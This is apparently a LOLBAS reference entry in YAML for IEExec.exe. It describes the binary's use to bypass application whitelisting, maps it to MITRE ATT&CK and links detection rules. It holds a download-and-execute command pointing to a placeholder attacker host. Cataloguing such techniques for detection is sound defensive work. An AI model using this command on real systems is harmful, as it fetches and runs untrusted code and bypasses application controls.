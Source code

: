 ```yaml
---
Name: Ieexec.exe
Description: The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: Downloads and executes bypass.exe from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: Remote
      - Execute: EXE (.NET)
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: Downloads and executes bypass.exe from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: Remote
      - Execute: EXE (.NET)
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_ieexec_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - IOC: Network connections originating from ieexec.exe may be suspicious
Resources:
  - Link: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

